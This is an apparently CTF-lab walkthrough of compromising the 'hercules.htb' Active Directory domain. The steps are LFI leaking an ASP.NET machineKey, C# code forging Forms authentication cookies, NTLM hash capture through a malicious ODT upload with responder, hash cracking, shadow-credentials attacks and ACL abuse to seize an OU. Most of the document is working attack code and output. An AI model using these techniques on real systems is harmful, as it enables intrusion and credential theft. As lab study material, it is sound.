

In the downloads section it gives the option to download files, when i do this i get this request in my proxy HTTP history, could be vulnerable to LFI

Ill move this request to replay in caido to try and get LFI

## LFI in hercules web portal file download



I have confirmed LFI

```python
    <system.web>
        <compilation targetFramework="4.8" />
        <authentication mode="Forms">
            <forms protection="All" loginUrl="/Login" path="/" />
        </authentication>
        <httpRuntime enableVersionHeader="false" maxRequestLength="2048" executionTimeout="3600" />
        <machineKey decryption="AES" decryptionKey="B26C371EA0A71FA5C3C9AB53A343E9B962CD947CD3EB5861EDAE4CCC6B019581" validation="HMACSHA256" validationKey="EBF9076B4E3026BE6E3AD58FB72FF9FAD5F7134B42AC73822C5F3EE159F20214B73A80016F9DDB56BD194C268870845F7A60B39DEF96B553A022F1BA56A18B80" />
        <customErrors mode="Off" />
    </system.web>
```

This is the `web.config` file, i think i can use this to forge another session for any user

## Session forging leads to access to web portal as `web_admin`

Ill create a console app (.NET framework) project in visual studio

```python
<?xml version="1.0" encoding="utf-8" ?>
<configuration>
	<system.web>
		<machineKey
		  validationKey="EBF9076B4E3026BE6E3AD58FB72FF9FAD5F7134B42AC73822C5F3EE159F20214B73A80016F9DDB56BD194C268870845F7A60B39DEF96B553A022F1BA56A18B80"
		  decryptionKey="B26C371EA0A71FA5C3C9AB53A343E9B962CD947CD3EB5861EDAE4CCC6B019581"
		  validation="HMACSHA256"
		  decryption="AES"
		  compatibilityMode="Framework20SP2" />
	</system.web>
	<startup>
		<supportedRuntime version="v4.0" sku=".NETFramework,Version=v4.7.2" />
	</startup>
</configuration>
```

Ill set this as the following value in `app.config`

Ill also make sure to use `System.Configuration` and `System.Web` as my assemblies

```python
using System;
using System.Web.Security;

class Program
{
    static void Main()
    {
        // Self-test: encrypt then decrypt with YOUR key/config
        var testTicket = new FormsAuthenticationTicket(
            1, "testuser", DateTime.Now, DateTime.Now.AddMinutes(30),
            false, "testuserdata"
        );
        string encrypted = FormsAuthentication.Encrypt(testTicket);
        Console.WriteLine("Self-encrypted: " + encrypted);

        try
        {
            var decrypted = FormsAuthentication.Decrypt(encrypted);
            Console.WriteLine("=== Self round-trip SUCCESS ===");
            Console.WriteLine("Name: " + decrypted.Name);
        }
        catch (Exception ex)
        {
            Console.WriteLine("Self round-trip FAILED: " + ex.Message);
        }

        Console.WriteLine();

        // Now try the real target cookie
        string targetCookie = "02F10C26E9C2A046EC8EAB0E8801C42EE962FFD8DC256D3E89B8584FB2382D7F50348ECC50DA297DC4C099F715EB595954FBED677C2AA269BD611F083DBCE41F5BA78FBEA739DE2BC2DD16786B4A95777619C42AC9C4A656DF4FB421B77236D65286EE2C86FC01867BCC13081EB1732FB1E3DF3B34C8D3DB5491C13437F6312E75F7044181BC52A4365E0A6FF407BDB41E23275EF9E26EB826A2169D341E3AF8";
        try
        {
            var ticket = FormsAuthentication.Decrypt(targetCookie);
            Console.WriteLine("=== Target Decrypt SUCCESS ===");
            Console.WriteLine("Name: " + ticket.Name);
            Console.WriteLine("UserData: " + ticket.UserData);
        }
        catch (Exception ex)
        {
            Console.WriteLine("Target Decrypt FAILED: " + ex.Message);
        }

        Console.ReadLine();
    }
}
```

Ill then use this code and use the `Start` function in visual studio to run it

```python
Self-encrypted: 07D5A2D3EF9058FEB518667E7E0BCF76CB13C8364C07BF00BDE3F65195FE5D52E63C07646901FA4C181B2EC06F28C8E148F43445C62439617A1CBD97543A4F36348A2F0387E5073BE5C0D3EE06AC45A90A5BE3F45D25B4BEF40E47649A23933274DECC537AA17D3E8C80496ECBF3D17672375FFC1F23BEEB9A042EB67BBF4A82441673AEB61F0B29763D90B6B6A67229837F58F7638C001386797D5B965CABF8819678E56609E2DEA542EC194633E2E5
=== Self round-trip SUCCESS ===
Name: testuser

=== Target Decrypt SUCCESS ===
Name: ken.w
UserData: Web Users
```

I managed to decrypt the session, now i can use these values to make my own for the `web_admin` user

Since `ken.w` is a web user, i want to use `web_admin` so ill have to get his group membership

```python
bloodyAD --host dc.hercules.htb -d hercules.htb -u ken.w -p 'change*th1s_p@ssw()rd!!' -k get object web_admin

distinguishedName: CN=web_admin,OU=Web Department,OU=DCHERCULES,DC=hercules,DC=htb
accountExpires: 9999-12-31 23:59:59.999999+00:00
badPasswordTime: 1601-01-01 00:00:00+00:00
badPwdCount: 0
cn: web_admin
codePage: 0
countryCode: 0
dSCorePropagationData: 2024-12-04 01:45:07+00:00
department: Web Administrators
displayName: web_admin
givenName: web_admin

...[SNIP]...
```

This user is part of the `Web Administrators`

Now keeping all the structure the same ill just replace the code in program.cs to forge a session 

```python
using System;
using System.Web.Security;

class Program
{
    static void Main()
    {
        var forgedTicket = new FormsAuthenticationTicket(
            1,
            "web_admin",
            DateTime.Now,
            DateTime.Now.AddHours(2),
            true,
            "Web Administrators"
        );

        string forgedCookie = FormsAuthentication.Encrypt(forgedTicket);
        Console.WriteLine("Forged cookie: " + forgedCookie);

        Console.ReadLine();
    }
}
```

This is the code used in program.cs

Ill run this using start again

```python
Forged cookie: 970E3754D7F736FE33DC8F535CF866E91E252A372CCEA24592840F5FDCCFAE2B4664799B6D20BEA1176F43328094D1B06615E0F3D502744771F1F48D52845C73B4975C526210B2B412CE697FCB1195384EF269A1F6135ECB7CE0165C5B88BA9FDE390B62015688604C3B83CE92A35C1D595C28CB762E1AEB8BCF786496C4343EEA9494F63B84DD092B6F13B7B7F2BC8B09291A109AD3776BCF91B3BF7FBCB7B1412484F9527021D417EBA16090B1D733AF0251CDED4C3869D103BC121A9F0FCB
```

I now have a forged session

And after replacing my old `.ASPXAUTH` value with the new and refreshing



I now have access as the web_admin

## Enumeration of web portal as `web_admin`





Maybe a hint towards a file upload?

Ill try upload a .txt file and see what it says


It doesnt allow .txt

But now i can use the request from my proxy HTTP history to try and figure out what file type it does allow

## Hash capture via malicious ODT file upload

After trying several file types i see it accepts .odt



I can use ntlm_theft to generate this, then spin up responder to catch a hash

```python
sudo responder -I tun0
```

First ill start responder

https://github.com/Greenwolf/ntlm_theft

```python
python3 ntlm_theft.py -g all -s 10.10.14.61 -f meeting  
Created: meeting/meeting.scf (BROWSE TO FOLDER)
Created: meeting/meeting-(url).url (BROWSE TO FOLDER)
Created: meeting/meeting-(icon).url (BROWSE TO FOLDER)
Created: meeting/meeting.lnk (BROWSE TO FOLDER)
Created: meeting/meeting.rtf (OPEN)
Created: meeting/meeting-(stylesheet).xml (OPEN)
Created: meeting/meeting-(fulldocx).xml (OPEN)
Created: meeting/meeting.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: meeting/meeting-(handler).htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: meeting/meeting-(includepicture).docx (OPEN)
Created: meeting/meeting-(remotetemplate).docx (OPEN)
Created: meeting/meeting-(frameset).docx (OPEN)
Created: meeting/meeting-(externalcell).xlsx (OPEN)
Created: meeting/meeting.wax (OPEN)
Created: meeting/meeting.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: meeting/meeting.asx (OPEN)
Created: meeting/meeting.jnlp (OPEN)
Created: meeting/meeting.application (DOWNLOAD AND OPEN)
Created: meeting/meeting.pdf (OPEN AND ALLOW)
Created: meeting/zoom-attack-instructions.txt (PASTE TO CHAT)
Created: meeting/meeting.library-ms (BROWSE TO FOLDER)
Created: meeting/Autorun.inf (BROWSE TO FOLDER)
Created: meeting/desktop.ini (BROWSE TO FOLDER)
Created: meeting/meeting.theme (THEME TO INSTALL)
Created: meeting/meeting.bat (BROWSE TO FOLDER)
Generation Complete.
```

Then ill generate the file

Then i can upload it



Then ill submit the request

```python

[SMB] NTLMv2-SSP Client   : 10.129.242.196
[SMB] NTLMv2-SSP Username : HERCULES\natalie.a
[SMB] NTLMv2-SSP Hash     : natalie.a::HERCULES:9069fe9ed423f5c4:B789639B8C1666AECB7299FE40D5E419:010100000000000000E865BE5145DD01C0F592B80802FB5E00000000020008004C0047003100510001001E00570049004E002D003100560045004C004F0036003900410056005600490004003400570049004E002D003100560045004C004F003600390041005600560049002E004C004700310051002E004C004F00430041004C00030014004C004700310051002E004C004F00430041004C00050014004C004700310051002E004C004F00430041004C000700080000E865BE5145DD01060004000200000008003000300000000000000000000000002000000E27DE7B628ABC0E8CF9320EE1F1672CE3599D2723006D06A21B66F0F08BDA920A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00360031000000000000000000
```

I managed to catch a hash!

```python
hashcat 'natalie.a::HERCULES:9069fe9ed423f5c4:B789639B8C1666AECB7299FE40D5E419:010100000000000000E865BE5145DD01C0F592B80802FB5E00000000020008004C0047003100510001001E00570049004E002D003100560045004C004F0036003900410056005600490004003400570049004E002D003100560045004C004F003600390041005600560049002E004C004700310051002E004C004F00430041004C00030014004C004700310051002E004C004F00430041004C00050014004C004700310051002E004C004F00430041004C000700080000E865BE5145DD01060004000200000008003000300000000000000000000000002000000E27DE7B628ABC0E8CF9320EE1F1672CE3599D2723006D06A21B66F0F08BDA920A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00360031000000000000000000' /usr/share/wordlists/rockyou.txt

NATALIE.A::HERCULES:9069fe9ed423f5c4:b789639b8c1666aecb7299fe40d5e419:010100000000000000e865be5145dd01c0f592b80802fb5e00000000020008004c0047003100510001001e00570049004e002d003100560045004c004f0036003900410056005600490004003400570049004e002d003100560045004c004f003600390041005600560049002e004c004700310051002e004c004f00430041004c00030014004c004700310051002e004c004f00430041004c00050014004c004700310051002e004c004f00430041004c000700080000e865be5145dd01060004000200000008003000300000000000000000000000002000000e27de7b628abc0e8cf9320ee1f1672ce3599d2723006d06a21b66f0f08bda920a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00360031000000000000000000:Prettyprincess123!
```

It cracked!

```python
nxc smb dc.hercules.htb -u natalie.a -p 'Prettyprincess123!' -k                           
SMB         dc.hercules.htb 445    dc               [*]  x64 (name:dc) (domain:hercules.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc.hercules.htb 445    dc               [+] hercules.htb\natalie.a:Prettyprincess123!
```

This user is now compromised

## Domain Enumeration as `natalie.a`



This user has GenericWrite over 6 users

`bob.w` and the `web_admin` are most interesting since both are part of more groups



The web admin also is part of the same groups apart from recruitment managers

## Compromising `bob.w` via shadow credentials

```python
certipy-ad shadow auto -u 'natalie.a@hercules.htb' -p 'Prettyprincess123!' -account 'bob.w' -dc-host dc.hercules.htb -dc-ip 10.129.242.196 -ldap-scheme ldap -k
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[!] KRB5CCNAME environment variable not set
[!] Target name (-target) not specified and Kerberos authentication is used. This might fail
[*] Targeting user 'bob.w'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'e6bb72108e6842969fe1f1f38cd17dfa'
[*] Adding Key Credential with device ID 'e6bb72108e6842969fe1f1f38cd17dfa' to the Key Credentials for 'bob.w'
[*] Successfully added Key Credential with device ID 'e6bb72108e6842969fe1f1f38cd17dfa' to the Key Credentials for 'bob.w'
[*] Authenticating as 'bob.w' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'bob.w@hercules.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'bob.w.ccache'
[*] Wrote credential cache to 'bob.w.ccache'
[*] Trying to retrieve NT hash for 'bob.w'
[*] Restoring the old Key Credentials for 'bob.w'
[*] Successfully restored the old Key Credentials for 'bob.w'
[*] NT hash for 'bob.w': 8a65c74e8f0073babbfac6725c66cc3f
```

I now have an NT hash for this user

```python
nxc smb dc.hercules.htb -u bob.w -H '8a65c74e8f0073babbfac6725c66cc3f' -k
SMB         dc.hercules.htb 445    dc               [*]  x64 (name:dc) (domain:hercules.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc.hercules.htb 445    dc               [+] hercules.htb\bob.w:8a65c74e8f0073babbfac6725c66cc3f
```

This user is now compromised!

## Access on shares as `bob.w`

```python
nxc smb dc.hercules.htb -u bob.w -H '8a65c74e8f0073babbfac6725c66cc3f' -k --shares
SMB         dc.hercules.htb 445    dc               [*]  x64 (name:dc) (domain:hercules.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc.hercules.htb 445    dc               [+] hercules.htb\bob.w:8a65c74e8f0073babbfac6725c66cc3f 
SMB         dc.hercules.htb 445    dc               [*] Enumerated shares
SMB         dc.hercules.htb 445    dc               Share           Permissions     Remark
SMB         dc.hercules.htb 445    dc               -----           -----------     ------
SMB         dc.hercules.htb 445    dc               ADMIN$                          Remote Admin
SMB         dc.hercules.htb 445    dc               C$                              Default share
SMB         dc.hercules.htb 445    dc               Department      READ            
SMB         dc.hercules.htb 445    dc               IPC$            READ            Remote IPC
SMB         dc.hercules.htb 445    dc               NETLOGON        READ            Logon server share 
SMB         dc.hercules.htb 445    dc               Reports         READ            
SMB         dc.hercules.htb 445    dc               SYSVOL          READ            Logon server share 
SMB         dc.hercules.htb 445    dc               Users           READ
```

I now have more access on SMB shares

```python
smbclient.py hercules.htb/bob.w@dc.hercules.htb -hashes ':8a65c74e8f0073babbfac6725c66cc3f' -k -no-pass
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
Type help for list of commands
# shares
Share Name                Type            Comment
----------------------------------------------------------------------
ADMIN$                    DISK (SPECIAL)  Remote Admin
C$                        DISK (SPECIAL)  Default share
Department                DISK            
IPC$                      IPC (SPECIAL)   Remote IPC
NETLOGON                  DISK            Logon server share 
Reports                   DISK            
SYSVOL                    DISK            Logon server share 
Users                     DISK            
# use Department
# ls
drw-rw-rw-          0  Wed Dec  4 01:45:12 2024 .
drw-rw-rw-          0  Wed Dec  4 01:45:11 2024 ..
drw-rw-rw-          0  Wed Dec  4 01:45:12 2024 Engineering Department
drw-rw-rw-          0  Wed Dec  4 01:45:12 2024 IT
drw-rw-rw-          0  Wed Dec  4 01:45:12 2024 Recruitment
drw-rw-rw-          0  Wed Dec  4 01:45:12 2024 Security Department
drw-rw-rw-          0  Wed Dec  4 01:45:12 2024 Web Department
# use Reports
# ls
drw-rw-rw-          0  Tue Sep 15 20:39:28 2026 .
drw-rw-rw-          0  Thu Oct  9 15:56:58 2025 ..
-rw-rw-rw-         97  Tue Sep 15 20:39:05 2026 .~lock.a9987c8f-6986-4211-a8f2-0e4c2096a0d1.odt#
-rw-rw-rw-         97  Tue Sep 15 20:33:14 2026 .~lock.da81e5c9-f25e-46e0-94cd-e4567d87c6af.odt#
# 
```

The Department share has a `.lnk` file and a email

```python
cat notice.eml  
--_004_MEYP282MB3102AC3B2MEYP282MB3102AUSP_
Content-Type: multipart/alternative;
	boundary="_000_MEYP282MB3102AC3E29FED8B2MEYP282MB3102AUSP_"

--_000_MEYP282MB3102AC3E2MEYP282MB3102AUSP_
Content-Type: text/plain; charset="us-ascii"
Content-Transfer-Encoding: quoted-printable
________________________________
From: Ashley Browne
Sent: Tuesday 10:17:27 AM
To: IT Support <HERCULES\IT Support@HERCULES.HTB>
Subject: Password Reset

Hey Team,

The Administration has provided a solution to much of the permission issues=
some of you have been facing.

If you are having problems changing a password, the instructions are:

1) Check AD Permissions against the user.
2) Run the shortcut provided in the share.
3) Try to reset the password again.

If all else fails, send me a message.

Regards, Ashley.

--_000_MEYP282MB3102AC3E21A33MEYP282MB3102AUSP_
Content-Type: text/html; charset="us-ascii"
Content-Transfer-Encoding: quoted-printable
```

This is the email, that references the .lnk

```python
C:\Users\ashley.b\Desktop\aCleanup.ps1
```

And after use cat to check the output of the .lnk i see its executing a powershell script in `ashley.b` desktop

There is also a Users share, but checking ashely.b desktop i did not find the powershell script

But checking ashley.b on bloodhound shows she has ForceChangePassword on a lot of users so the script likely uses her permissions to change the passwords

I dont think i can do anything with this for now since i dont have access to the script or ashley

## Writable objects as `bob.w`

```python
bloodyAD --host dc.hercules.htb -d hercules.htb -k get writable 

distinguishedName: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=hercules,DC=htb
permission: WRITE

distinguishedName: OU=Engineering Department,OU=DCHERCULES,DC=hercules,DC=htb
permission: CREATE_CHILD; WRITE

distinguishedName: OU=Security Department,OU=DCHERCULES,DC=hercules,DC=htb
permission: CREATE_CHILD; WRITE

distinguishedName: OU=Web Department,OU=DCHERCULES,DC=hercules,DC=htb
permission: CREATE_CHILD; WRITE
```

This user has WRITE on three OUs and of course its child objects, which includes quite a few users

## Moving `Auditor` to the `Web Department` OU to inherit GenericWrite

And after returning to the user `natalie.a`, she had GenericWrite on the web department OU, so i should be able to move users as `bob.w` to the web department OU so that `natalie.a` gets GenericWrite on them 

Ill target the `Auditor` account since they have access over WINRM and is part of the Security department OU

To do this ill use my tool i created

https://github.com/ethanbauer10/OU-move

```python
python3 ou-move.py -H ldap://dc.hercules.htb --kerberos --from-ou "CN=Auditor,OU=Security Department,OU=DCHERCULES,DC=hercules,DC=htb" --to-ou "OU=Web Department,OU=DCHERCULES,DC=hercules,DC=htb"

  ___  _   _   __  __                   
 / _ \| | | | |  \/  |                  
| | | | | | | | |\/| | _____   _____    
| |_| | |_| | | |  | |/ _ \ \ / / _ \  
 \___/ \___/  |_|  |_|\___/\ V /  __/  
                              \_/ \___|  
  OU Move Tool — LDAP moddn

[*] Connecting to dc.hercules.htb:389 (LDAP)
[*] Binding via Kerberos (SASL GSSAPI) using existing ticket cache...
[+] Bound via Kerberos as: u:HERCULES\bob.w

[*] Verifying object exists: CN=Auditor,OU=Security Department,OU=DCHERCULES,DC=hercules,DC=htb
[+] Object confirmed.

[*] Source DN   : CN=Auditor,OU=Security Department,OU=DCHERCULES,DC=hercules,DC=htb
[*] New RDN     : CN=Auditor
[*] New superior: OU=Web Department,OU=DCHERCULES,DC=hercules,DC=htb

[*] Executing moddn...
[+] Success! Object moved.
[+] New DN: CN=Auditor,OU=Web Department,OU=DCHERCULES,DC=hercules,DC=htb
```

I have had to add kerberos auth to my tool, so that may appear on GH soon.

But this user should now be in the new OU

```python
certipy-ad shadow auto -u 'natalie.a@hercules.htb' -p 'Prettyprincess123!' -account 'Auditor' -dc-host dc.hercules.htb -dc-ip 10.129.242.196 -k -target dc.hercules.htb
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[!] KRB5CCNAME environment variable not set
[*] Targeting user 'auditor'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '2eef6fc9f6b74521861ab86896dd8a1d'
[*] Adding Key Credential with device ID '2eef6fc9f6b74521861ab86896dd8a1d' to the Key Credentials for 'auditor'
[*] Successfully added Key Credential with device ID '2eef6fc9f6b74521861ab86896dd8a1d' to the Key Credentials for 'auditor'
[*] Authenticating as 'auditor' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'auditor@hercules.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'auditor.ccache'
[*] Wrote credential cache to 'auditor.ccache'
[*] Trying to retrieve NT hash for 'auditor'
[*] Restoring the old Key Credentials for 'auditor'
[*] Successfully restored the old Key Credentials for 'auditor'
[*] NT hash for 'auditor': a9285c625af80519ad784729655ff325
```

Then ill get the NT hash for the user

```python
evil-winrm -i dc.hercules.htb -r hercules.htb -u Auditor -S
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Warning: User is not needed for Kerberos auth. Ticket will be used
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\auditor\Documents>
```

Then i can finally get access as this user!

I first had to generate a krb5 config file and get the TGT for the auditor and export them both

## Writable objects as `auditor`

```python
bloodyAD --host dc.hercules.htb -d hercules.htb -k get writable        

distinguishedName: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=hercules,DC=htb
permission: WRITE

distinguishedName: OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb
permission: CREATE_CHILD; WRITE
OWNER: WRITE
DACL: WRITE

distinguishedName: CN=Auditor,OU=Security Department,OU=DCHERCULES,DC=hercules,DC=htb
permission: WRITE

distinguishedName: DC=_msdcs.hercules.htb,CN=MicrosoftDNS,DC=ForestDnsZones,DC=hercules,DC=htb
permission: CREATE_CHILD
```

This user has interesting permissions on the `Forest Migration` OU, i should be able to take ownership and grant GenericAll over the OU

```python
bloodyAD --host dc.hercules.htb -d hercules.htb -k get object 'OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb'

distinguishedName: OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb
dSCorePropagationData: 2026-09-15 20:46:13+00:00
description: Container for disabled user-object accounts from previous domains/transfers.
instanceType: 4

...[SNIP]...
```

This is a container for deleted objects

## Taking ownership and granting full control over `Forest Migration` OU

```python
bloodyAD --host dc.hercules.htb -d hercules.htb -k set owner 'OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb' 'auditor' 
[+] Old owner S-1-5-21-1889966460-2597381952-958560702-512 is now replaced by auditor on OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb
```

This granted ownership

```python
bloodyAD --host dc.hercules.htb -d hercules.htb -k add genericAll 'OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb' 'auditor'
[+] auditor has now GenericAll on OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb
```

I now have GenericAll over the OU

```python
bloodyAD --host dc.hercules.htb -d hercules.htb -k get children --target 'OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb'

distinguishedName: CN=James Silver,OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb

distinguishedName: CN=Anthony Rudd,OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb

distinguishedName: CN=WINSRV01-2016,OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb

distinguishedName: CN=WINSRV02-2016,OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb

distinguishedName: CN=WINSRV03-2016,OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb

